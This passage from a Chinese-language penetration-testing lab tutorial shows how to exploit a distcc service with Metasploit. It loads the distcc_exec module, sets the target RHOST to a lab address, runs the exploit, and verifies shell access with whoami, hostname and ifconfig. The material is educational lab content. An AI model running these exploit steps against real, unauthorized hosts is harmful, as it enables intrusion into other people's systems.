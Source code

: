 在 Kali 的 MSF 终端中，使用 `use` 命令，使用相应的模块：

```
# 使用 use 命令对模块进行使用
use exploit/unix/misc/distcc_exec
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483509242282.png-wm)


接着再使用 `show options` 命令，显示模块参数信息：

```
# 使用命令 show options 查看模块属性名
show options
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480001711639.png-wm)

```
# 利用 set 命令，设置渗透目标主机参数 RHOST 为 192.168.122.102
set RHOST 192.168.122.102
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480002814943.png-wm)



一切就绪后，再使用 `exploit` 进行主机攻击：

```
# 使用命令 exploit 命令，进行渗透攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483509502233.png-wm)


# 四、验证渗透攻击

### 4.1 验证渗透是否成功

验证渗透是否成功常用的三个命令：`whoami` 和 `hostname` 以及 ip 地址查看命令：`ifconfig`：

```
# 验证是否成功，查看当前的用户名
whoami

# 由 hostname 查看主机的名字
hostname

# 由 ifconfig 命令查看渗透主机的 ip 地址
ifconfig
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480003230387.png-wm)
